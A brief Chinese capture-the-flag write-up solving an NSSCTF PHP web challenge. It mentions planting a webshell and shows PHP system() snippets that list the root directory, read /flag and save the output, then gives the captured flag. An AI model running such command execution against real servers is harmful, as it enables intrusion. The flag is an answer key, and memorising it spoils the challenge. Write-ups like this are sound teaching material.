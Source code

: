 # PHP是世界上最好的语言

题目链接：http://node5.anna.nssctf.cn:25828/



解题思路：

![企业微信截图_17472290071312](./images/17472290071312.png)

本身界面就可以run code。但是尝试写入webshell后，虽然可以展示PHPINFO内容：

![企业微信截图_17472290787005](./images/17472290787005.png)

但是文件处一片空白，命令执行/虚拟终端也存在问题，如python不存在、/bin/bash不存在等。

![企业微信截图_17472291859803](./images/17472291859803.png)

只能换一种思路，先让/下的目录写到flag.txt里。

```
$result = system("find / -maxdepth 1 -name flag");
file_put_contents("./flag.txt", $result);
```

可以看到，只有/flag。

再让/flag的内容写到flag.txt里：

```
$result = system("cat /flag");
file_put_contents("./flag.txt", $result);
```

得到flag:

```
NSSCTF{e0d9198d-79f2-4015-8db0-b4a5b39e0b2f}
```


